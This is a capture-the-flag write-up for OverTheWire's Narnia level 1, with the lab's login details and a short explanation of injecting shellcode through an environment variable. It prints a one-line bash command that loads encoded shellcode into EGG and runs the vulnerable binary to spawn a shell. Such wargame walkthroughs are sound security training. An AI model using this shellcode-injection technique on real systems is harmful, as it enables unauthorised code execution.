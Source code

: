 # Narnia Level 1 -> Level 2


## Level Info
SSH: [narnia.labs.overthewire.org](narnia.labs.overthewire.org)
Port: 2226
Username: narnia1
Password: efeidiedae
Attack Type: Injecting Shellcode via. environment variables 


## Explanation
This level was a basic shellcode injection via environment variable. To be honest, we didn't need to do any actual exploitation as the code itself is exploitable by design.
We just need to properly select a shellcode and propery set it to the environment.
For me the main problem was setting the variable for **EGG**. As it happens,setting hex strings to environment variables cause the program to **SEGFAULT**. The proper way happens to be using some printing functionality like `printf`.

The exploit code and the shellcode is given below
```bash
EGG=$(printf "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81") ./narnia1
```

This will drop us into a bash shell. Use it to get the password of narnia2
